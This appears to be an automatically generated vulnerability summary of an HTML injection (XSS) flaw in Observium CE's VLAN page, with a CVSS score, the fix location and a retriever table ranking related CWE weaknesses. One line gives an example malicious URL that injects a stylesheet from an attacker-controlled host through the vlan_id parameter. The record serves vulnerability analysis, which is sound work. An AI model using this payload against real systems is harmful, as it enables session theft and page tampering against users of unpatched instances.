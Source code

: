 ## Vulnerability Description
A **html code injection vulnerability** exists in the vlan management part of Observium CE 24.4.13528. A specially crafted HTTP request can lead to an arbitrary html code. An authenticated user would need to click a malicious link provided by the attacker.

### Vulnerability Description Key Phrases
- **weakness:** **html code injection vulnerability**
- **impact:** arbitrary html code
- **vector:** specially crafted HTTP request
- **attacker:** authenticated user
- **product:** Observium CE
- **version:** 24.4.13528
- **component:** vlan management part

## CVE Reference Links Content Summary
## CVE-2024-47002 - Observium vlan html code injection vulnerability

**Root cause of vulnerability:**

The vulnerability is due to improper neutralization of input during web page generation, specifically within the `vlan` functionality of Observium. The `vlan_id` parameter is not properly sanitized, allowing an attacker to inject arbitrary HTML code.

**Weaknesses/vulnerabilities present:**

*   CWE-79 - Improper Neutralization of Input During Web Page Generation (‘Cross-site Scripting’)
*   Reflected Cross-Site Scripting (XSS)

**Impact of exploitation:**

Successful exploitation allows an attacker to inject arbitrary HTML code into the web page, potentially leading to:

*   Execution of malicious scripts in the victim's browser.
*   Stealing sensitive information (cookies, session tokens).
*   Defacement of the web page.
*   Redirection to malicious websites.

**Attack vectors:**

*   An attacker needs to craft a malicious HTTP request with a specially crafted `vlan_id` parameter.
*   The attacker must then trick a user into clicking a malicious link containing the crafted URL.

**Required attacker capabilities/position:**

*   The attacker does not need any special privileges to craft the malicious request.
*   The attacker needs to be able to deliver the malicious link to a legitimate, authenticated user of the Observium instance.
*   Authenticated user interaction is required (clicking a malicious link).

**Mitigation or fix:**

*   The vendor released a patch on December 24, 2024.
*   Proper input validation and sanitization of the `vlan_id` parameter in `html/pages/vlan.inc.php` is required.

**Confirmed Vulnerable Versions:**

*   Observium CE 24.4.13528

**CVSSv3 Score:**

*   8.7 - CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N

**Additional Details (more than official CVE description):**

*   The vulnerable code is located in `html/pages/vlan.inc.php`.
*   Example malicious URL: `http://192.168.0.40/vlan/?vlan_id=<LINK REL="stylesheet" HREF="http://192.168.0.140:8000/very_evil.css">`
*   The report provides the full HTTP request and response examples.
*   Discovered by Marcin 'Icewall' Noga of Cisco Talos.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 80 | Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS) | Variant | Allowed | sparse | 0.291 |
| 2 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.276 |
| 3 | 138 | Improper Neutralization of Special Elements | Class | Discouraged | sparse | 0.264 |
| 4 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | sparse | 0.253 |
| 5 | 74 | Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection') | Class | Discouraged | sparse | 0.253 |
| 6 | 116 | Improper Encoding or Escaping of Output | Class | Allowed-with-Review | sparse | 0.248 |
| 7 | 502 | Deserialization of Untrusted Data | Base | Allowed | sparse | 0.248 |
| 8 | 113 | Improper Neutralization of CRLF Sequences in HTTP Headers ('HTTP Request/Response Splitting') | Variant | Allowed | sparse | 0.246 |
| 9 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | dense | 0.568 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |



# Complete CWE Specifications

CWE-80: Improper Neutralization of Script-Related HTML Tags in a Web Page (Basic XSS)

CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

CWE-138: Improper Neutralization of Special Elements

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

CWE-74: Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection')

CWE-116: Improper Encoding or Escaping of Output

CWE-502: Deserialization of Untrusted Data

CWE-113: Improper Neutralization of CRLF Sequences in HTTP Headers ('HTTP Request/Response Splitting')

CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

CWE-184: Incomplete List of Disallowed Inputs